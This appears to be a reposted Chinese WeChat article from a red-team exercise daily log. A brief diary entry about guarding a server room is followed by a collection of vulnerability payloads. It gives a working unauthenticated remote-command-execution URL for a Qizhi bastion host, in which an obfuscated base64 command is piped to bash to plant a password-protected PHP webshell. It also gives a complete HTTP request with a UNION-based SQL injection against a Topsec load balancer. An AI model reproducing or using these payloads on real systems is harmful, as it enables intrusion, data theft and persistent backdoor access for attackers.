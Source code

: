 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/6n4OkLF\_QLFyewkF1mh3eQ)

0912HW 日报  

蹲守机房的第二天，机房很冷，冷的要命，尤其临近饭点还有点饥寒交迫的感觉。但是不敢松懈，要提醒自己时刻保持警惕，随时等候拔线的指令。  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icmjgiajk3ForAicqK8FGJ39EdL2l3qoR81JqhMTauT71x0A0LUjXFyEfFJtQPic6JWa29JibxfRiaF3ibOA/640?wx_fmt=png)

今天很安静，但是请别大意![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icmjgiajk3ForAicqK8FGJ39EdpAeiaEibU7gojHf1tJlLiaAjZkv38alib2rKEJ2LGgliaSPRWIAUEgrfrzg/640?wx_fmt=png)  

今天 ，你拔线了么？

以下转载自：渗了个透  

《HW 平安夜: 09/11 漏洞 PAYlOAD》  

《HW 平安夜: 09/12 态势感知》

0、齐治堡垒机前台远程命令执行漏洞（CNVD-2019-20835）

未授权无需登录。

1、访问 http://10.20.10.11/listener/cluster\_manage.php  : 返回 "OK".

2、访问如下链接即可 getshell，执行成功后，生成 PHP 一句话马

3、/var/www/shterm/resources/qrcode/lbj77.php  密码 10086

```
https://10.20.10.10/ha\_request.php?action=install&ipaddr=10.20.10.11&node\_id=1${IFS}|\`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash\`|${IFS}|echo${IFS}

```

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7T9XJ4Tib6MVshTVmOUYpcicE8UEGQJf3VVPU2ia5LUic9mXWTdoiahWDSITepRuyI9wiaxRkN4SbJCGuMw/640?wx_fmt=png)

这里假设 10.20.10.10 为堡垒机的 IP 地址。  

1、天融信 TopApp-LB 负载均衡系统 Sql 注入漏洞

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7T9XJ4Tib6MVshTVmOUYpcicE5AW12sTdkdtvHSEv3NVLFuWUKYIIb0hpMUGvsbb6RAdN5vU7UvlL3A/640?wx_fmt=png)

```
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: localhost
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, \*/\*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r\_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。

```
